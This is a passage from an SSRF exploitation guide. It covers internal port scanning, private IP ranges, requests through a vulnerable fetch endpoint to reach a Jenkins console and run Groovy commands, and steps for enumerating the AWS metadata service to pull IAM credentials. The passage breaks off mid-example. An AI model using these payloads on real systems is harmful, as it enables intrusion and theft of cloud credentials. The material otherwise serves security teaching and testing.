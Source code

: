 **Response Analysis:**
- **200 OK:** Service is running and accessible
- **Connection Timeout:** Host exists but port is filtered/closed
- **Connection Refused:** Host exists but service is not running
- **DNS Resolution Error:** Host does not exist

**Internal Service Discovery and Exploitation:**

Organizations commonly deploy internal services on private IP ranges:
- **10.0.0.0/8** (Class A private networks)
- **172.16.0.0/12** (Class B private networks)
- **192.168.0.0/16** (Class C private networks)

**Administrative Interface Access:**
```http
GET /fetch?url=http://10.0.0.5:8080/admin HTTP/1.1
Host: vulnerable-app.com
```

**Common Internal Service Ports:**
```bash
# Database services
3306 (MySQL), 5432 (PostgreSQL), 1521 (Oracle), 27017 (MongoDB)

# Web services
80 (HTTP), 443 (HTTPS), 8080 (Alt HTTP), 9200 (Elasticsearch)

# Admin interfaces
8443 (Admin HTTPS), 9090 (Prometheus), 3000 (Grafana)

# Container orchestration
6443 (Kubernetes API), 2376 (Docker), 8500 (Consul)
```

**Exploitation Example - Jenkins Admin Panel:**
```http
GET /fetch?url=http://10.0.0.5:8080/jenkins/script HTTP/1.1
Host: vulnerable-app.com
```

If Jenkins script console is accessible without authentication:
```groovy
// Remote code execution via Groovy script
println "whoami".execute().text
println "ls -la /etc/passwd".execute().text
```

**Cloud Infrastructure Exploitation:**

**AWS EC2 Instance Metadata Service (IMDS):**
```http
GET /fetch?url=http://169.254.169.254/latest/meta-data/ HTTP/1.1
Host: vulnerable-app.com
```

**Metadata Enumeration Sequence:**
```bash
# 1. Discover available metadata endpoints
/latest/meta-data/
/latest/meta-data/iam/
/latest/meta-data/iam/security-credentials/

# 2. Extract IAM role credentials
/latest/meta-data/iam/security-credentials/EC2-Role-Name

# 3. Retrieve temporary AWS credentials
{
    "AccessKeyId": "ASIA...",
    "SecretAccessKey": "...",
    "Token": "...",
```